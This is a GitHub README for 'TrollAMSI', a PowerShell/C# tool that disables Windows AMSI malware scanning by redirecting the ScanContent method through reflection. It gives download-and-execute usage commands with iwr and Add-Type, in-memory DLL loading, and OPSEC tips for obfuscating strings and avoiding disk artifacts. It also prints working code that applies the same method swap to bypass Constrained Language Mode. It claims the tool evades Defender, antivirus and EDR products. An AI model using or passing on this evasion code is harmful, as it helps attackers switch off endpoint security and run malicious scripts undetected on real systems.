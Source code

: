 # TrollAMSI
This new sub technique (based off matt graeber's original work on reflection) is called "Reflection with method swapping". Opens doors for other techniques such as ETW and CLM possibly(?).
Uses reflection to get a handle to the "ScanContent" method and updates it to point to a method we control.

## Inspiration
https://practicalsecurityanalytics.com/new-amsi-bypass-using-clr-hooking/

## Benefits
- No P/Invoke or win32 API calls used
- No amsi.dll patching
  
## Usage 

### Add-Type
```
>$code = (iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSI/main/TrollAMSI.cs).content
>Add-Type $code
>[TrollAMSI]::troll()
```
### Compiled x64
```
>c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:library /out:TrollAMSI.dll TrollAMSI.cs /reference:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
>[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollAMSI.dll"))
>[TrollAMSI]::troll()
```

## OPSEC
- STATIC: obfuscate "AmsiUtils" and "ScanContent" maybe?
- DYNAMIC: Nothing much really. Note that Add-Type method will leave disk artifacts, whereas hosting the compiled DLL on a webserver and using Load() is completely in memory

## TESTING
- Tested on win defender, 2 AV and 1 EDR 
- Eitherway security products pay greater emphasis to amsi.dll and the relevant winapi calls for byte patching which we do not touch
  
## Wishlist
- same technique should/could be applicable to bypass
  - ETW write
  - We can apply the same trick on CLM enforcement
   ```
          public static void Troll()
        {
            MethodInfo o = typeof(System.Management.Automation.Alignment).Assembly.GetType("System.Management.Automation.Security.SystemPolicy").GetMethod("GetS" + "ystemLoc" + "kdow" + "nPolicy", System.Reflection.BindingFlags.Public | System.Reflection.BindingFlags.Static);
            MethodInfo t = typeof("<Insert Class here>").GetMethod("M", BindingFlags.Static | BindingFlags.NonPublic);
            RuntimeHelpers.PrepareMethod(o.MethodHandle);
            RuntimeHelpers.PrepareMethod(t.MethodHandle);
            Marshal.Copy(new IntPtr[] { Marshal.ReadIntPtr(t.MethodHandle.Value + 8) }, 0, o.MethodHandle.Value + 8, 1);
        }
        private static int M() { return 0; }
  ```
  - maybe there's more?
  
## Disclaimer
Should only be used for educational purposes!
